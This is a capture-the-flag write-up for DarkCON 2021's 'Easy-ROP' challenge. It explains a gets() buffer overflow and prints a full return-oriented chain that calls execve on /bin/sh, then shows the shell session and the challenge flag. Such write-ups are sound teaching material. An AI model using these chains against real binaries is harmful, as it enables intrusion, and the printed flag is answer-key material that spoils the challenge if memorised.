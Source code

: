 # Easy-ROP - DarkCON 2021

- Category: Pwn
- Points: 441
- Solves: 84
- Solved by: Lu191
- Link: https://r00tstici.unisalento.it/darkcon-ctf-writeup/

## Description

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

`kali@kali:~/# nc 65.1.92.179 49153`

```
Welcome to the darkcon pwn!!
Let us know your name:
```

## Analysis

The program just read from the stdin and then exit. As the name of the challenge suggest this seems to be an easy buffer overflow challenge, so we try to 
pass a very long string to the stdin and we see that the program crashes with a segmentation fault as we expected, so lets analyze the code and confirm this.
We analyze it with ghidra and looking at main() funtcion we confirm that there is a buffer overflow because this program use the function gets() to read from the stdin.

```
void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}
```

So in order to overwrite the IP (Instruction Pointer) we have first to overwrite the stack with 72 chars (64 array's length + 8 for the Frame Pointer) with junk.
Let's check the properties of the executable.

`kali@kali:~/# checksec easy-rop`

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We don't have PIE enabled so any static ROPchain should work fine.
We see with a few tries with pwndbg that the Canary found should not be a problem because it will not be overwritten with a small ropchain.

## Solution

We try to automate the process of creation of the ropchain using a tool called ROPGadget.

`kali@kali:~/# ROPgadget --binary easy-rop --ropchain`

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

Let's analyze the ropchain it built.
We will spawn our shell using syscall and execve which both take a few arguments, let’s look at syscall first:

`syscall(RAX, RDI, RSI, RDX)`

The RAX (Accumulator register) will hold the system call number where we will call execve (number 59 or 0x3b in hexadecimal).
The RDI (Destination Index register) argument will point to /bin/sh.
The RSI and RDX (Source Index register and Data register) are additional arguments that we will zero out.

Since PIE (Position Independent Executable) isn't enabled we know that the .data address won't change from run to run. So, this is a great place to store /bin/sh in memory. Let's check our section permissions and check our .data section address.
We use readelf to copy the address where the .data section starts.

`kali@kali:~/# readelf -t easy-rop`

```
There are 32 section headers, starting at offset 0xd4678:

Intestazioni di sezione:
[N°] Nome   Tipo      Indirizzo         Offset            Link    Dimensione       DimEnt           Info  Allin    Flag
...
[21] .data  PROGBITS  00000000004c00e0  00000000000bf0e0  0       0000000000001a30 0000000000000000  0    32       [0000000000000003]: WRITE, ALLOC
...
```

So we first set rsi with the address where the .data section starts, then we set rax that now contains the string "/bin//sh" we use two forwardslash due to padding.
Then we copy the string "/bin//sh" in memory (.data section).

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
```

We write a null byte to the address where is located the .data section + 8, then we set the right values for the three registers that will be used for the syscall, now we the RDI argument will point to /bin/sh string located where the .data section starts and the RSI and RDX point to the null byte located at the address of .data + 8, so they are zero out.

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
```

Our final steps are to set 0x3b (execve syscall) into RAX (this is done setting first rax to 0 xoring rax with rax and then adding 1 to rax until it reaches 0x3b, so 59 times) and then invoke our syscall.

```
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
...
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

`kali@kali:~/# python3 exploit.py`

```
[+] Opening connection to 65.1.92.179 on port 49153: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
easy-rop
flag
run.sh
ynetd
$ cat flag
darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
```
